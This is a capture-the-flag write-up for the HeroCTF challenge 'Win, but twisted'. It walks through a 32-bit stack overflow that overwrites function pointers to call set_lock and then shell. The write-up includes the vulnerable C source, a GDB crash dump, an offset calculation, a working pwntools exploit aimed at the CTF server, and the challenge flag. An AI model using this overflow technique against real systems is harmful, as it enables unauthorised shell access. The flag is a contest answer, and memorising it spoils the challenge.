 # Win, but twisted

![Screenshot_16](https://user-images.githubusercontent.com/67475596/116267591-d833f880-a77c-11eb-90da-a6fcc7751806.png)

In this challenge we were given a binary and a C file, let's analyze them.
```C
#include <stdio.h>

#include <stdlib.h>

#include <unistd.h>

#include <sys/types.h>



int UNLOCKED = 0;



void set_lock()

{

    printf("Setting lock !");

    UNLOCKED = 1;

}



void shell()

{

    printf("In shell function ! ");

    if (UNLOCKED == 1)

    {

        printf("Getting shell ! ");

        setreuid(geteuid(), geteuid());

        system("/bin/sh");

    }



    

}



void hello_hero(int hero)

{

    printf("It looks like that's something a Hero would say\n");

}



void look_like()

{

    printf("Please keep being one. :)\n");

}



int main()

{

    int (*look)() = look_like;

    int (*hello)() = hello_hero;

    char buffer[32];



    printf("What would a hero say ?\n>>> ");

    fgets(buffer, 44, stdin);

    hello();

    look();



}
```
```
file WinButTwisted
WinButTwisted: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, BuildID[sha1]=30d5731a2385816deab25ce8684e2de08b24846f, for GNU/Linux 4.4.0, not stripped
```
Security:
```bash
checksec WinButTwisted
[*] '/home/kali/Desktop/CTF/HeroCTF/pwn/WinButTwisted'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
Uhhm it seems crashed.. 
```bash
./WinButTwisted       
What would a hero say ?
>>> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
zsh: segmentation fault  ./WinButTwisted
```
Now let's find the exactly offset for our padding.
Create a cyclic string in python with the Pwntools library.
```bash
>>> cyclic_metasploit(40)
b'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A'
```
Run the binary into GDB 
```gdb
gef➤  r
Starting program: /home/kali/Desktop/CTF/HeroCTF/pwn/WinButTwisted 
What would a hero say ?
>>> Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A

Program received signal SIGSEGV, Segmentation fault.
0x31624130 in ?? ()
──────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0x31624130 ("0Ab1"?)
$ebx   : 0x080e9000  →  0x00000000
$ecx   : 0x080ecde9  →  0x00000000
$edx   : 0xfbad0088
$esp   : 0xffffd0bc  →  0x08049add  →  <main+118> mov eax, DWORD PTR [ebp-0xc]
$ebp   : 0xffffd0f8  →  0x00000800
$esi   : 0x080e900c  →  0x0806d190  →  <__strcpy_ssse3+0> endbr32 
$edi   : 0x0804823c  →  0x00000000
$eip   : 0x31624130 ("0Ab1"?) 
$eflags: [zero carry PARITY adjust SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063 
──────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffd0bc│+0x0000: 0x08049add  →  <main+118> mov eax, DWORD PTR [ebp-0xc]       ← $esp
0xffffd0c0│+0x0004: 0x080e9094  →  0x080ea8c0  →  0x00000000
0xffffd0c4│+0x0008: 0x00000000
0xffffd0c8│+0x000c: "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A\n"
0xffffd0cc│+0x0010: "a1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A\n"
0xffffd0d0│+0x0014: "2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A\n"
0xffffd0d4│+0x0018: "Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A\n"
0xffffd0d8│+0x001c: "a5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A\n"
────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x31624130
────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "WinButTwisted", stopped 0x31624130 in ?? (), reason: SIGSEGV
──────────────────────────────────────────────────────────────────────────────────────── trace ────
───────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  
```
Here we can see that our EIP register has been overwritten by the pattern 
```gdb
$eip   : 0x31624130 ("0Ab1"?) 
```

Now we have the ingredients to calculate the offset
```bash
>>> cyclic_metasploit_find(0x31624130)
32
```

Analyzing the C code we can see that we have an input with the fgets(), we can take advantage of this function to jump to the set_lock() function that will set the global variable UNLOCKED to 1, this operation will then allow us to jump to the shell() function, the condition if (UNLOCKED == 1) will then be true and we will have a shell opened by the command system("/bin/sh");
so at this point we can get the flag

Now what we need is the address of the set_lock() function and that of shell()

the payload will be structured as follows:
> Payload = PADDING + set_lock()_address + shell()_address

Address of set_lock()
```bash
objdump -d WinButTwisted | grep set_lock  
08049965 <set_lock>:
```

Address of shell()
```bash
objdump -d WinButTwisted | grep shell   
08049999 <shell>:
```

Now let's write the full exploit
```Python3
from pwn import *

r = remote("pwn.heroctf.fr",9003)
offset = 32 # eip
payload = b'A' * offset + p32(0x8049965) + p32(0x8049999)
r.sendline(payload)
r.interactive()

#flag --> Hero{Tw1sT3D_w1N_FuNcTi0N}
```
Voilà.. here's the flag <br>
Writeup written by FeeeDz from STNKS team
